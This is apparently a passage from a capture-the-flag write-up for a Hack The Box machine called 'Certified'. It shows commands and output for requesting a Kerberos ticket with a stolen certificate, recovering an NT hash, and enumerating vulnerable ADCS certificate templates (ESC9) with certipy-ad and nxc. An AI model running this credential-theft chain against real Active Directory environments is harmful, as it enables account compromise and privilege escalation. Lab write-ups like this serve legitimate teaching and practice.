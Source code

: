 $ ./gettgtpkinit.py certified.htb/ca_operator -cert-pfx EkDY6hor.pfx -pfx-pass WlZFTKpVBy3BzPXcgzCX ca_operator.ccache
2025-03-14 03:11:26,295 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-03-14 03:11:26,333 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-03-14 03:11:50,020 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-03-14 03:11:50,020 minikerberos INFO     91a30e694f68d016d12e103de8305e1b124aee33130f0795aec79178e9e46b41
INFO:minikerberos:91a30e694f68d016d12e103de8305e1b124aee33130f0795aec79178e9e46b41
2025-03-14 03:11:50,023 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file

$ ./getnthash.py CERTIFIED.HTB/ca_operator -key 91a30e694f68d016d12e103de8305e1b124aee33130f0795aec79178e9e46b41
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
b<...>2
{{< /highlight >}}

### ESC9, ADCS template abuse

Per the name of the box and that ADCS is running on the machine, we can clearly assume the root part will concern ADCS certificates.
{{< highlight go "hl_lines=1" >}}
$ nxc ldap 10.10.11.41 -u management_svc -H a<...>4 -M adcs
SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.41     389    DC01             [+] certified.htb\management_svc:a<...>4
ADCS        10.10.11.41     389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.11.41     389    DC01             Found PKI Enrollment Server: DC01.certified.htb
ADCS        10.10.11.41     389    DC01             Found CN: certified-DC01-CA
{{< /highlight >}}

Using certipy-ad, we can find a vulnerable certificate template.
{{< highlight go "hl_lines=1 17" >}}
$ certipy-ad find -u 'ca_operator@certified.htb' -hashes b<...>2 -dc-ip '10.10.11.41' -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[*] Got CA configuration for 'certified-DC01-CA'
[*] Saved BloodHound data to '20250313205721_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250313205721_Certipy.txt'
[*] Saved JSON output to '20250313205721_Certipy.json'
